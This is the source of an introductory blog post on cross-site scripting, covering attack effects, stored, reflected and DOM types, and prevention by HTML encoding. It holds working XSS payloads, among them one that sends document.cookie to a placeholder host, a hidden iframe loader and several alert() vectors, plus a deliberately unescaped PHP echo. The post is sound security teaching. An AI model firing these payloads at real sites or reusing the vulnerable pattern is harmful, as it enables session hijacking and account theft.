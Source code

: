 ```yaml
---
layout:     post
title:      "Cross Site Scripting"
subtitle:   "Introduction to XSS"
date:       2016-08-25 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
permalink: /:title/
category: "Web Security"
---
```

<h1>What is XSS?</h1>
<p>Cross Site Scripting (XSS) is a name of one of the most common vulnerability in web applications. It's third in the list of the newest <a href="https://www.owasp.org/index.php/Top10">OWASP Top Ten</a> document so it's essential to know how it works. </p>
<p>Browsers diplay the content of a website using a mix of HTML (HyperText Markup Language which is a core of a webpage) and JavaScript responsible for making things run in response of events (like clicking a button). Of course there are other essential elements like CSS to style the webpage but in order to perform a XSS attack we will only need HTML and Javascript. </p>
<p>Essence of XSS attack is to inject some malicous code (for example Javascript or other scripting language that can be opened in a browser) into the browser of client using vulnerable web application. That way, an attacker has an ability to execute any malicious code in victim's browser. </p>
<p>But why is it so powerul? Let's consider this example: You're running some simple WordPress website with small audience. As you don't want spammers to make comments under your posts, you enable the option to only publish comments allowed by yourself. In the meantime some malicous hacker wanted to destroy your webpage (who knows why but there are still people like that). He firstly tests if you really have to allow comments, and then injects into the comment box malicious JavaScript code that will steal cookies and send them to him. Now as you've got a notification that someone published a new comment, you open the WordPress admin page to see what someone has written. In the moment you view this comment, this malicous code steals your admin cookie and sends it to the attacker. Few hours later your site has been pawned. </p>
<p>Powefull, right? But enough story time for today, let's jump into some technical details. </p>








<h1>Potential results of XSS attack</h1>
<ul>
<li><b>Stealing session cookies</b>
<p>With that attacker is being able to steal someone's logged session - like in the story.</p>
{% highlight html %}
<svg onload=fetch(‘//HOST/?cookie=’+document.cookie)>
{% endhighlight %}
</li>
<li><b>Substituting a content of a website</b>
<p>Users can be tricked into thinking that "Your site have been hacked".</p>
{% highlight html %}
<svg onload=”document.body.innerHTML='<img src=//HOST/IMAGE>'”>
{% endhighlight %}
</li>
<li><b>Capture the keys pressed by the user</b>
<p>Ability to log what someone is writing... I don't have to say why it's useful ;)</p>

</li>
<li><b>Crash the browser</b>
<p>Local Denial Of Service Attack. Mostly frustrating.</p>
</li>
<li>
<b>Redirect user’s browser to another website</b>
<p>Attacker can redirect the browser to another webpage that may be prepared with some customized malware ready to attack victims operating system. </p>
{% highlight html %}
<iframe src=//HOST/ style=display:none></iframe>
{% endhighlight %}
</li>
<li>
<b>Creating fake HTML form</b>
<p>Where an attacker would be able to trick user into entering their credentials and form would send them to an attacker. </p>
</li>
</ul>

<h1>Types of XSS attacks</h1>
<p><b>Persistent (stored) XSS</b> - This type of attack relies on the fact that webpage may store some input, or file in a database. Just like in our story, comments were stored in the WordPress database. It consists of injecting the javascript code into the server side. That's why it's called stored. Every user that sees this stored content is a potential victim. </p>
<p><b>Reflected XSS</b> - When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. Victim usually unwittingly opens a link with some JavaScript code which is sent to the web application. Then this application sends back (that's why reflected) whatever the victim asked for with this JavaScript code resulting in executing it in the browser. </p>
<p>Let's take a look at this simple PHP code: </p>
{% highlight php %}
$username = $_GET[‘user’];
echo “<h1>Welcome, ” . $username . “!</h1>”;
{% endhighlight %}
<p>Which would take an username from the URL just like that: </p>
{% highlight html %}
http://example.com/welcome.php?user=Mike
{% endhighlight %}
<p>If you open the web and view the source code it would look like this</p>
{% highlight html %}
<h1>Hello, John!</h1>
{% endhighlight %}
<p>But what if we swap the name with some JavaScript code? </p>
{% highlight html %}
http://example.com/welcome.php?user=<script>alert("XSS")</script>
{% endhighlight %}
<p>After checking the source code of the same webpage opened with this URL, you would notice that the alert box with "XSS" text was triggered.   </p>
{% highlight html %}
<h1>Hello, <script>alert("XSS")</script>!</h1>
{% endhighlight %}
<p>Now with that knowledge you can enter some more malicous code. Reflected XSS attack ready ;)</p>

<p><b>DOM Based XSS</b> is an attack where the malicious code is executed as a result of modyfing DOM (Document Object Model). It's rarest type of XSS attack. Read more at <a href="https://www.owasp.org/index.php/DOM_Based_XSS">OWASP</a>.</p>

<h1>XSS Examples</h1>
<p><b>1. With script tag</b></p>
{% highlight html %}
<script>alert("XSS")</script>
{% endhighlight %}
<p><b>2. With body tag</b></p>
{% highlight html %}
<p><body onload=alert("XSS")></p>
{% endhighlight %}
<p><b>3. With img tag</b></p>
{% highlight html %}
<p><img src="blabla" onerror="alert("XSS")></img></p>
{% endhighlight %}
<p><b>4. Or any other tag</b></p>
{% highlight html %}
<svg onload=alert("XSS")>
{% endhighlight %}
{% highlight html %}
<x onmouseover=alert("XSS")>
{% endhighlight %}
<p><b>5. Resource tag like iframe</b></p>
{% highlight html %}
<iframe src=javascript:alert("XSS")>
{% endhighlight %}
<p><b>6. Or object tag</b></p>
{% highlight html %}
<object data=javascript:alert("XSS")>
{% endhighlight %}
<h1>How to prevent XSS?</h1>
<p>All right, as we know how XSS attacks works, let's move on to prevention. Essential thing to do is to filter any data sent from the user before viewing them in application (like "<" and ">", tag attributes or HTML entities ). </p>
{% highlight html %}
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;     
/ --> &#x2F;
{% endhighlight %}
<p>That method will prevent most of the XSS attacks but for the most sophisticated ones it may be helpful to read <a href="https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet">XSS Prevention Sheet</a>. Another helpful thing would be prevention on the client side - like installing NoScript addition. </p>

<p>As always - thanks for reading and exploring this topic with me. Now after better understanding of XSS we can look for vulnerabilities in many different web applications.</p>
